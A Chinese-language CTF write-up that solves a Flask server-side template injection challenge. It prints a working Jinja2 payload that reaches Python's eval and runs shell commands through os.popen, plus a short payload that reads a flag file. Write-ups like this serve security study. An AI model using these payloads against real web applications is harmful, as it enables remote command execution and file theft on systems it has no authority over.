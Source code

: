 ```yaml
---
title: 攻防世界 WEB Web_python_template_injection
categories:
  - ctf
tags:
  - 信息安全
abbrlink: 57753
date: 2020-01-18 13:25:19
---
```




# 0x00 - 题目描述

![](https://markdown.yeek.top/20200118132746.png)


<!-- MORE -->


# 0x01 - 解题过程

打开是单一网页，注释中也没有其他提示。

![](https://markdown.yeek.top/20200118132924.png)



通过百度得知，是要利用 flask 模板的代码注入漏洞。就例如下面这种

![](https://markdown.yeek.top/20200118133342.png)



这是某大神已经写好的远程执行漏洞，在popen里填入指令就行了。

```php
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

效果如下

![](https://markdown.yeek.top/20200118133907.png)

![](https://markdown.yeek.top/20200118133951.png)





# 0x02 - 技术总结

这道题属于 **SSTI——服务端模板注入攻击** ，其实在 `Chrome` 的 `Hackbar` 中有测试载荷。



**SSTI** 读取文载荷

```python
[].__class__.__base__.__subclasses__()[40]('fl4g').read()
```



